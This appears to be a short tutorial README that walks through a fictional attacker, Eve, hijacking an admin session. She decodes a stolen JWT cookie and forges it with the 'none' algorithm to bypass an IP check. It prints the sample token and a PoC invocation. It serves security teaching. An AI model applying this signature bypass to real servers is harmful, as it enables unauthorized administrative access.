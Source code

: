 # Eve is an evil attacker

## Admin website break-in

Let's say Eve stole a cookie from the admin user with an XSS somewhere.
```
auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXAiOiI5MS4xODIuMjM3LjI0NyIsImlhdCI6MTUyODk4MzI3NX0.TocbMpx0DrAW6r-gpOg_7ycMU3l0ar3f4smD2VQh9PA
```

Eve inserts the cookie into its own browser and tries to access to https://bob-cloud-computing.tk/admin but receives some bad news : the server greets Eve with `Bad ip`. Humm.

Eve realizes that it's a JWT (Json Web Token) so she decodes it with https://jwt.io/

The header is :
```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```

And the body :
```json
{
  "username": "admin",
  "ip": "91.182.237.247",
  "iat": 1528983275
}
```

Oh, that's where the IP comes from !

The bad news is that Eve can't forge a new version of this token with its own
ip because Eve doesn't know the secret used by the server for the HMAC (`"alg": "HS256"`) :/

But what Eve you changed the algorithm from `HS256` to `none` ? Would the server
accepts the algorithm from the header instead of a fixed value on its side ?
It's worth a try !

Eve then writes a short js PoC (`/poc.js`) that decodes the JWT, changes the ip
and signs it with the `none` algorithm. Eve then makes an http request to the
vulnerable server and ...

(Eve might want to `npm install` before running this command)

``` bash
./poc.js eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXAiOiI5MS4xODIuMjM3LjI0NyIsImlhdCI6MTUyODk4MzI3NX0.TocbMpx0DrAW6r-gpOg_7ycMU3l0ar3f4smD2VQh9PA 1.1.1.1
```

Voila !
